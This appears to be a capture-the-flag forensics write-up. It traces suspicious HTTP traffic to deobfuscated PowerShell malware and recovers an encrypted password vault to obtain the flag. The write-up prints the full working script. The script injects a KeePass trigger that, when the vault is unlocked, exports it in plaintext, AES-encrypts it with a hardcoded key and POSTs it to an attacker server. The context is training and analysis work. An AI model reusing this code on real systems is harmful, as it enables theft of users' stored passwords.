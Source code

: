 ## Homeland Justice
### Challenge Description
Well There's some HTTP activity going on in the network. Strangee ... all I did was start Keepass you need to find out what's going on.

#### Solution

Filter For HTTP you will find Powershell code.
![alt text](image.png)
The code is obfuscated, after Deobfuscating with PowerDecode you will see it injects a malicious XML code in Keepass config file.
when the user decrypts his vault the trigger sends the decrypted vault to the attacker web server. (POST REQUEST)
However it gets encrypted in AES before sending (Hardcoded key and IV)

```
$filename = "C:\Windows\Tasks\export.txt"
$uploadURL = $true
$url = "http://192.168.202.133/index.php"



$APPDATA = [Environment]::GetEnvironmentVariable("APPDATA")
$config_File = "$APPDATA\KeePass\KeePass.config.xml"
$xml = [xml](Get-Content $config_File)
$xml.SelectNodes("//Triggers").RemoveAll()
$xml.Save($config_File)

$exportCommands = '<Parameter>' + $filename + '</Parameter>'

$uploadCommands = ""
$uploadAction = ""

  
  $upload = '$Key=[System.Convert]::FromBase64String("MTdBOVZEIFBDQUI2UjNEWElBLUI5QUtDSlM5LVZEQTh=");' +
            '$IV=[System.Convert]::FromBase64String("UFGQiVFTDdCJFBDVTlFMzl==");' +
            '$AES=[System.Security.Cryptography.AesManaged]::new();' +
            '$AES.Mode=[System.Security.Cryptography.CipherMode]::CBC;' +
            '$AES.Padding=[System.Security.Cryptography.PaddingMode]::PKCS7;' +
            '$AES.Key=$Key;$AES.IV=$IV;' +
            '$Encryptor=$AES.CreateEncryptor();' +
            '$PlainText=[System.IO.File]::ReadAllText("'+$filename+'");' +
            '$Bytes=[System.Text.Encoding]::UTF8.GetBytes($PlainText);' +
            '$EncryptedBytes=$Encryptor.TransformFinalBlock($Bytes,0,$Bytes.Length);' +
            '$EncryptedText=[System.Convert]::ToBase64String($EncryptedBytes);' +
            '$file=[System.IO.Path]::GetFileName("'+$filename+'");' +
            '$http=New-Object System.Net.WebClient;' +
            '$http.Headers.Add("Content-Type","application/x-www-form-urlencoded");' +
            '$http.UploadString("'+$url+'","filename=$file&data=$EncryptedText");'
  
  $bytes = [Text.Encoding]::Unicode.GetBytes($upload)
  $encodedCommands = [Convert]::ToBase64String($bytes)
  $uploadCommands = '<Parameter>-ex bypass -noprofile -EncodedCommand ' + $encodedCommands + '</Parameter>'

  $uploadAction = "
    <Action>
      <TypeGuid>2uX4OwcwTBOe7y66y27kxw==</TypeGuid>
      <Parameters>
        <Parameter>PowerShell.exe</Parameter>
        $uploadCommands
        <Parameter>False</Parameter>
        <Parameter>1</Parameter>
        <Parameter />
      </Parameters>
    </Action>"


$TriggerXML = [xml] @"
<Trigger>
  <Guid>$([Convert]::ToBase64String([guid]::NewGuid().ToByteArray()))</Guid>
  <Name>Offline notepad style backup of passwords</Name>
  <Events>
    <Event>
      <TypeGuid>5f8TBoW4QYm5BvaeKztApw==</TypeGuid>
      <Parameters>
        <Parameter>0</Parameter>
        <Parameter />
      </Parameters>
    </Event>
  </Events>
  <Conditions />
  <Actions>
    <Action>
      <TypeGuid>D5prW87VRr65NO2xP5RIIg==</TypeGuid>
      <Parameters>
        $exportCommands
        <Parameter>KeePass CSV (1.x)</Parameter>
        <Parameter />
        <Parameter />
      </Parameters>
    </Action>
    $uploadAction
  </Actions>
</Trigger>
"@


ForEach($Object in $config_File) {
  if ($Object -is [String]) {
    $KeePassXMLPath = $Object
  }
  elseif ($Object.PSObject.Properties['KeePassConfigPath']) {
    $KeePassXMLPath = [String]$Object.KeePassConfigPath
  }
  elseif ($Object.PSObject.Properties['Path']) {
    $KeePassXMLPath = [String]$Object.Path
  }
  elseif ($Object.PSObject.Properties['FullName']) {
    $KeePassXMLPath = [String]$Object.FullName
  }
  else {
    $KeePassXMLPath = [String]$Object
  }

  if ($KeePassXMLPath -and ($KeePassXMLPath -match '.\.xml$') -and (Test-Path -Path $KeePassXMLPath)) {
    $KeePassXMLPath = Resolve-Path -Path $KeePassXMLPath
    $KeePassXML = [xml](Get-Content -Path $KeePassXMLPath)
    $null = [GUID]::NewGuid().ToByteArray()
    if ($KeePassXML.Configuration.Application.TriggerSystem.Triggers -is [String]) {
      $Triggers = $KeePassXML.CreateElement('Triggers')
      $Null = $Triggers.AppendChild($KeePassXML.ImportNode($TriggerXML.Trigger, $True))
      $Null = $KeePassXML.Configuration.Application.TriggerSystem.ReplaceChild($Triggers, $KeePassXML.Configuration.Application.TriggerSystem.SelectSingleNode('Triggers'))
    }
    else {
      $Null = $KeePassXML.Configuration.Application.TriggerSystem.Triggers.AppendChild($KeePassXML.ImportNode($TriggerXML.Trigger, $True))
    }
    $KeePassXML.Save($KeePassXMLPath)
  }
}
  


```


Now We have KEY and IV we need the data.

Filter for http.request.method == "POST"

Extract the data, it's encoded in b64
![alt text](image-1.png)
Decode it then pass it to Aes Decryptor function with the key and iv we extracted earlier. 

Submit the flag